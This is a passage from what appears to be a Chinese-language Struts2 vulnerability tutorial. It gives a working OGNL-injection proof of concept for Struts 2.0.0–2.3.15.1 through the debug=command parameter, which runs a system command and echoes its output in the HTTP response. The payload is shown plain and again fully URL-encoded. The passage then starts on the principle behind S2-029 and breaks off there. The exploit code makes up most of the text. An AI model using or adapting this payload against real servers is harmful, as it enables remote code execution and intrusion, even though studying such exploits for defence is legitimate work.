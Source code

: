 #### 影响版本

```php
Struts 2.0.0 - 2.3.15.1
```

#### 启动漏洞

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c3572bc2704885b07e5e278e5d6e22144f834e25.png)

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f3f4df60bfb6da9dece56f81b42e7cc344296981.png)

##### 验证漏洞是否存在 poc

```php
?debug=command&amp;e xpression=#a=(new java.lang.ProcessBuilder('id')).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b)
,#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#out=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRe
sponse'),#out.getWriter().println('dbapp:'+new java.lang.String(#e)),#out.getWriter().flush(),#out.getWriter().close()
```

##### 进行url编码之后

```php
?%64%65%62%75%67=%63%6f%6d%6d%61%6e%64&amp;%65%78%70%72%65%73%73%69%6f%6e=%23%61%3d%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%28%27%69%64%27%29%29%2e%73%74%61%72%74%28%29%2c%23%62=%23%61%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%23%63=%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%23%62%29%2c%23%64%3d%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%23%63%29%2c%23%65=%6e%65%77%20%63%68%61%72%5b%35%30%30%30%30%5d%2c%23%64%2e%72%65%61%64%28%23%65%29%2c%23%6f%75%74=%23%63%6f%6e%74%65%78%74%2e%67%65%74%28%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%64%69%73%70%61%74%63%68%65%72%2e%48%74%74%70%53%65%72%76%6c%65%74%52%65%73%70%6f%6e%73%65%27%29%2c%23%6f%75%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%70%72%69%6e%74%6c%6e%28%27%64%62%61%70%70%3a%27%2b%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%23%65%29%29%2c%23%6f%75%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%66%6c%75%73%68%28%29%2c%23%6f%75%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%63%6c%6f%73%65%28%29
```

![image-20210711141906515](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5c4e140da79d688c055ebb6c35e5625423815ce4.png)

### 4.11 S2-029远程代码执行漏洞

#### 漏洞原理

##### Struts2的标签库使用OGNL表达式来访问ActionContext中的对象数据。为了能够访问到ActionContext中的变量，Struts2将ActionContext设置为OGNL的上下文，并将OGNL的跟对象加入ActionContext中。

##### 在Struts2中，如下的标签就调用了OGNL进行取值

```php
&lt;p&gt;parameters: &lt;s:property value=&quot;#parameters.msg&quot; /&gt;&lt;/p&gt;
```
